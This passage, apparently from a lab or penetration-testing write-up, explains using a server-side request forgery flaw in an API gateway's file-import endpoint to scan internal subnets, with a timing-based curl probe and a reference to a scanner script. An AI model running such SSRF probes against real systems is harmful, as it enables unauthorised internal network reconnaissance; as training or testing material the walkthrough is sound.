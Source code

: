 ## Subnet Scanning with SSRF

Rather than scanning an entire subnet, we can try scanning for network gateways.2 Network designs commonly use a /16 or /24 subnet mask with the gateway running on the IP where the forth octet is ".1" (for example: 192.168.1.1/24 or 172.16.0.1/16).

We can check for valid hosts but closed ports with the following: 
```bash
curl -X POST -H "Content-Type: application/json" -d '{"url":"http://127.0.0.1:6666"}' http://apigateway:8000/files/import -s -w 'Total: %{time_total} microseconds\n' -o /dev/null
```

The request to a closed port is taking me about .25 - .31 seconds. 

When changing the host to a non reachable one, it takes much longer. 

Check ssrf_gaway_scanner.py to see the finished script. 